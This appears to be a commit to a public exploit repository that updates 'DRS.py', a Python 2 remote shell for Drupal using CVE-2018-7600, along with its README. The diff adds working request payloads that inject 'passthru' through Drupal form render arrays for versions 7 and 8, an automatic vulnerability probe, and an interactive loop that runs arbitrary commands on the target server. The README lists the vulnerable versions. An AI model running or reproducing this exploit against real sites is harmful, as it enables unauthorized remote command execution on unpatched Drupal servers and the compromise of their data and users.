

New version with v7 added
Auto-detect v7 or v8
Code refactoring
TLS selection in arg

diff --git a/DRS.py b/DRS.py
@@ -8,42 +8,86 @@ import urllib2
 print '\n############################################################'
 print '#                                                          #'
 print '#   Drupal Remote Shell using CVE-2018-7600                #'
-print '#   Use : DRS.py host      Tested w v8.5.0                 #'
+print '#   Use : DRS.py HostPath                                  #'
 print '#   https://github.com/antonio-fr/DrupalRS                 #'
 print '#                                                          #'
 print '############################################################\n'
 
 if len(sys.argv)!=2:
-	print "Use : ./DRS.py hostname (or IP)"
+	print "Use : DRS.py http[s]://hostname|IP"
 	sys.exit()
 target = sys.argv[1]
 
-def rem_shell(domain, cmd):
-	url = 'http://'+domain+'/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax'
-	payload = { 'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[a][#post_render][]': 'passthru',
-		'mail[a][#type]': 'markup', 'mail[a][#markup]': cmd }
-	req = urllib2.Request(domain)
+def post_data(path, data_dict):
+	req = urllib2.Request(path)
 	req.add_header('Content-type', 'multipart/form-data')
-	r = urllib2.urlopen(url, urllib.urlencode(payload))
+	r = urllib2.urlopen(path, urllib.urlencode(data_dict))
 	content = r.read()
-	if r.getcode() != 200 or content[-1] != "]":
+	return content
+
+def send_cmd_v7(site, php_fct, args):
+	url = site + '/user/password?name[%23post_render][0]=' + php_fct \
+		+ '&name[%23markup]=' + urllib.quote(args)
+	payload = { 'form_id' : 'user_pass', '_triggering_element_name' : 'name' }
+	rsp1 = post_data(url, payload)
+	clist = rsp1.split('"')
+	formb_id =  clist[ clist.index("form_build_id") + 2 ]
+	url2 = site + '/file/ajax/name/%23value/' + formb_id
+	payload2 = { 'form_build_id' : formb_id }
+	rsp2 = post_data(url2, payload2)
+	if rsp2[-1] != "]":
 		return "Failure"
-	end_resp = content.find('[{"command":') - 1
+	return rsp2
+
+def send_cmd_v8(site, php_fct, args):
+	url = site + '/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax'
+	payload = { 'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[a][#post_render][]': php_fct,
+		'mail[a][#type]': 'markup', 'mail[a][#markup]': args }
+	rsp = post_data(url, payload)
+	if rsp[-1] != "]":
+		return "Failure"
+	return rsp
+
+def get_output(full_response):
+	end_resp = full_response.find('[{"command":') - 1
 	if end_resp > 0:
-		return content[:end_resp]
+		return full_response[:end_resp]
 	else:
 		return ""
 
-def testvuln(site):
-	assert rem_shell(site, 'echo ABCZ') == 'ABCZ'
+def rem_shell(domain, version, cmd):
+	if version == 7:
+		rsp = send_cmd_v7(domain, 'passthru', cmd)
+	if version == 8:
+		rsp = send_cmd_v8(domain, 'passthru', cmd)
+	return get_output(rsp)
 
-testvuln(target)
-print "Connected to",target
+def testvuln(site):
+	try:
+		if get_output(send_cmd_v7(site, 'printf', 'ABCZ\n')) == 'ABCZ':
+			print "This server hosts a vulnerable Drupal v7"
+			return 7
+	except:
+		pass
+	try:
+		if get_output(send_cmd_v8(site, 'printf', 'ABCZ\n')) == 'ABCZ':
+			print "This server hosts a vulnerable Drupal v8"
+			return 8
+	except:
+		pass
+	return 0
+
+version = testvuln(target)
+if version != 8 and version != 7:
+	print "This server doesn't host a vulnerable Drupal"
+	sys.exit()
+dmn = target.split("://")[1]
+print "Connected to",dmn
 print "# CTRL+D RETURN to quit\n"
 while True:
-	cmd = raw_input("[drupal@"+target+" ~]#")
+	cmd = raw_input("[drupal@"+dmn+" ~]#")
 	if cmd == "\x04":
 		break
-	print rem_shell(target, cmd)
+	print rem_shell(target, version, cmd)
 print "logout"
 

diff --git a/README.md b/README.md
@@ -4,14 +4,14 @@ Drupal Remote Shell
 
 A remote shell using CVE-2018-7600
 
-Use : ./DRS.py hostname (or IP)
+Use : ./DRS.py http[s]://hostname|IP
 
 
 ![alt text](https://raw.githubusercontent.com/antonio-fr/DrupalRS/master/shotDRS.png) 
 
 
-Shell is very basic. No memory of previous commands, no directory change,...
+Shell is very basic. No command completion, no directory change,...
 
-Tested on Drupal v8.5.0. Should work on versions <8.5.1, <8.4.6 and eventually <8.3.9.
+It works with any Drupal vulnerable versions : <8.5.1, <8.4.6 , <8.3.9. and <7.58
 
 Requires Python 2
